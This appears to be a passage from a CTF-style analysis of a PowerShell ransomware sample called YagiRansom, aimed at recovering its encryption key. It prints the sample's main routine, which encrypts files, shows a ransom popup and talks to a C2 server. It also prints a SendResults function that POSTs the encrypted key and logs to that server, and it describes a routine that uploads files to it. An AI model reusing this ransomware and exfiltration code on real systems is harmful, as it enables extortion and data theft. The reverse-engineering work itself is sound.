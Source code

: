 - If files have been encrypted:
  - Finds all `.enc` files in the directory and its subdirectories.
  - For each encrypted file:
    - Extracts the filename using `split` with the system's path separator.
    - Encodes the file content using `R64Encoder` with `-f` flag.
    - Encodes the filename using `R64Encoder` with `-t` flag.
    - Uploads the encoded file to the C2 server using the encoded filename in the URL path
#### Main
```powershell
if ($Mode -eq "-d") { 
   Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
else {
   Write-Host ;
   Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
   $DCe = GetStatus ; sleep 1
   $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
   Write-Host "[!] Encrypting ..." -ForegroundColor Red
   CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1
   if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
      ExfiltrateFiles ; sleep 1 }}
   if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
   else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}
   if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
   if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
   else { SendOK }
sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host
```
- Create `$WiETm` randomly.
- Encrypt files in `EncrypFiles`.
- Use `ExfiltrateFiles` to filter and send the data.
### Reversing the encryption process
We need to find the main key `$WiETm`. You can use `Ctrl` + `F` to find where `WiETm` is used in the functions.

We can see in the function `SendResults`:
```powershell
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```
- `$WiETm` is the plaintext that gets encrypted with AES using the key `$Uz19o` and stored in `$cvf`
- `$cvf` is then encoded by `R64Encoder` and stored in `$cVl`
- `$cVl` is stored in `$2YngY` along with other variables
- `$2YngY` is encoded with base64 and stored in `$XoX`
- `$XoX` is then sent to the server

